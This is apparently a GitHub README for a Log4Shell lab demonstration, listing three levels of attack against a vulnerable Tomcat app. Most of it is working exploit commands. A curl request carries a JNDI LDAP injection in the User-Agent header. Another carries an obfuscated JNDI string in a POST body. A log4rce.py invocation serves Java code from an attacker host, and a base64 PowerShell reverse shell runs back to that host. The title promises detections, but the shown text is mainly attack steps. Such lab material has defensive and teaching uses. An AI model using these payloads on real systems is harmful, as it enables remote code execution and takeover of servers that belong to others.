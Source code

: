 # Attack Artifacts

Three exploits / three payloads / three detections

See us walkthrough the attack at https://www.youtube.com/watch?v=X7cLgDoX6KU

![Exploit Overview / Network Diagram](overview.jpg)

**1. Easy mode: Web browser + GET + Huntress**
* https://log4shell.huntress.com/
* Use [CyberChef](https://gchq.github.io/CyberChef/) to URL Encode 
* Browser to vulnerable Tomcat app http://10.0.0.5:8080/log4j/api/demo/get?x=
* View DNS query call out in Huntress Log4shell view

**2. Medium: User-Agent string + RCE Calc**
* Setup our own 1st stage malicious LDAP + 2nd stage serving malicious Java code
* Using [Log4rce](https://github.com/alexandre-lavoie/python-log4rce) (other popular one [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)) 
* `python3 log4rce.py --payload "cmd.exe /c calc.exe" --rhost 10.0.0.6 manual`
* `curl -A '${jndi:ldap://10.0.0.6:1387/Exploit}' http://10.0.0.5:8080/log4j/api/vulnerable/user`

**3. Advanced: POST + Obfuscation + RCE + Reverse interactive shell**
* Get base64 reverse shell (https://www.revshells.com/ or mkrevshell.py) to Attacker 10.0.0.6 on port 88 
* `python3 log4rce.py --payload "powershell -e <base64 payload>" --rhost 10.0.0.6 manual`
* `curl -d 'foo=${${::-j}${::-n}${::-d}${::-i}:ldap://10.0.0.6:1387/Exploit}' -X POST http://10.0.0.5:8080/log4j/api/vulnerable/post`
